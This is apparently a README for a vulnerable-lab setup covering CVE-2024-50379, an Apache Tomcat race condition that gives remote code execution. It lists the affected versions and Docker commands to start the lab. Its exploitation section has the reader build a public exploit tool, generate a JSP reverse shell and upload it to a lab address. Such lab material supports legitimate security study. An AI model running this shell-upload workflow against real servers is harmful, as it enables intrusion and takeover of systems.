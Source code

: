 # CVE-2024-50379 (WIP)
Time-of-check Time-of-use (TOCTOU) Race Condition vulnerability during JSP compilation in Apache Tomcat permits an RCE on case insensitive file systems when the default servlet is enabled for write (non-default configuration). This issue affects Apache Tomcat: from 11.0.0-M1 through 11.0.1, from 10.1.0-M1 through 10.1.33, from 9.0.0.M1 through 9.0.97. Users are recommended to upgrade to version 11.0.2, 10.1.34 or 9.0.98, which fixes the issue.

## Metrics
CVSSv2: N/A   
CVSSv3: N/A   

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```

Stop environment and remove network
```bash
docker compose down
```
## Detection and exploitation example
>[!IMPORTANT] For demonstration only. Possibly not exploitable in Linux systems, Tomcat permits an RCE on _case insensitive_ file systems.

Use https://github.com/SleepingBag945/CVE-2024-50379

Build:
```
go build
```
Or [download binary](https://github.com/SleepingBag945/CVE-2024-50379/releases/tag/f).

Generate jsp shell on [revshells.com](https://www.revshells.com/), use browser [shell fron Node Security](https://node-security.com/posts/jsp-war-shell/) or use any other.
Run:
```
./CVE-2024-50379 -u http://172.17.0.2:8080/ -f shell.jsp -p ggsl.jsp
```

## Exploits and PoCs
https://github.com/SleepingBag945/CVE-2024-50379
https://github.com/Alchemist3dot14/CVE-2024-50379

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2024-50379](https://nvd.nist.gov/vuln/detail/CVE-2024-50379)

https://medium.com/@patelvidhi4288/deep-dive-poc-of-cve-2024-50379-exploit-tomcat-vulnerability-9-8-severity-776cfcfcf3ed
https://medium.com/@cyber_dark/cve-2024-50379-cve-2024-56337-apache-tomcat-critical-rce-vulnerability-9bbd1015ea2a